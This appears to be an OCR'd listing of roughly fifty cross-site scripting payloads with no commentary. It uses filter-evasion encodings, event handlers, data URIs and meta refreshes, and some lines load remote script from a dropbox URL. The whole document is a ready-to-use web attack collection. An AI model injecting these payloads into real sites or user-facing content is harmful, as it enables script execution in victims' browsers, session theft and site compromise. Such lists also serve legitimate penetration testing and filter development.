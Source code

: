       <div style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)" onclick="alert(1)">x</button>
      "><img src=x onerror=window.open('https://www.google.com/');>
      <form><button formaction=javascript&colon;alert(1)>CLICKME
      <math><a xlink:href="//jsfiddle.net/t846h/">click
      <object data=data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+></object>
      <iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
      <a href="data:text/html;blabla,&#60&#115&#99&#114&#105&#112&#116&#32&#115&#114&#99&#61&#34&#104&#116&#116&#112&#58&#47&#47&#115&#116&#101&#114&#110&#101&#102&#97&#109&#105&#108&#121&#46&#110&#101&#116&#47&#102&#111&#111&#46&#106&#115&#34&#62&#60&#47&#115&#99&#114&#105&#112&#116&#62&#8203">Click Me</a>
      ‘; alert(1);
      ‘)alert(1);//
      <ScRiPt>alert(1)</sCriPt>
      <IMG SRC=jAVasCrIPt:alert(‘XSS’)>
      <IMG SRC=”javascript:alert(‘XSS’);”>
      <IMG SRC=javascript:alert(&quot;XSS&quot;)>
      <IMG SRC=javascript:alert(‘XSS’)>      
      <img src=xss onerror=alert(1)>
      <iframe %00 src="&Tab;javascript:prompt(1)&Tab;"%00>
      <svg><style>{font-family&colon;'<iframe/onload=confirm(1)>'
      <input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"
      <sVg><scRipt %00>alert&lpar;1&rpar; {Opera}
      <img/src=`%00` onerror=this.onerror=confirm(1)
      <form><isindex formaction="javascript&colon;confirm(1)"
      <img src=`%00`&NewLine; onerror=alert(1)&NewLine;
      <script/&Tab; src='https://dl.dropbox.com/u/13018058/js.js' /&Tab;></script>
      <ScRipT 5-0*3+9/3=>prompt(1)</ScRipT giveanswerhere=?
      <iframe/src="data:text/html;&Tab;base64&Tab;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">
      <script /*%00*/>/*%00*/alert(1)/*%00*/</script /*%00*/
      &#34;&#62;<h1/onmouseover='\u0061lert(1)'>%00
      <iframe/src="data:text/html,<svg &#111;&#110;load=alert(1)>">
      <meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>
      <svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script
      <svg><script x:href='https://dl.dropbox.com/u/13018058/js.js' {Opera}
      <meta http-equiv="refresh" content="0;url=javascript:confirm(1)">
      <iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
      <form><a href="javascript:\u0061lert&#x28;1&#x29;">X
      </script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
      <img/&#09;&#10;&#11; src=`~` onerror=prompt(1)>
      <form><iframe &#09;&#10;&#11; src="javascript&#58;alert(1)"&#11;&#10;&#09;;>
      <a href="data:application/x-x509-user-cert;&NewLine;base64&NewLine;,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="&#09;&#10;&#11;>X</a
      http://www.google<script .com>alert(document.location)</script
      <a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a
      <img/src=@&#32;&#13; onerror = prompt('&#49;')
      <style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;
      <script ^__^>alert(String.fromCharCode(49))</script ^__^
      </style &#32;><script &#32; :-(>/**/alert(document.location)/**/</script &#32; :-(
      &#00;</form><input type&#61;"date" onfocus="alert(1)">
      <form><textarea &#13; onkeyup='\u0061\u006C\u0065\u0072\u0074&#x28;1&#x29;'>
      <script /***/>/***/confirm('\uFF41\uFF4C\uFF45\uFF52\uFF54\u1455\uFF11\u1450')/***/</script /***/
      <iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>
      <a href="javascript:void(0)" onmouseover=&NewLine;javascript:alert(1)&NewLine;>X</a>
      <script ~~~>alert(0%0)</script ~~~>
      <style/onload=&lt;!--&#09;&gt;&#10;alert&#10;&lpar;1&rpar;>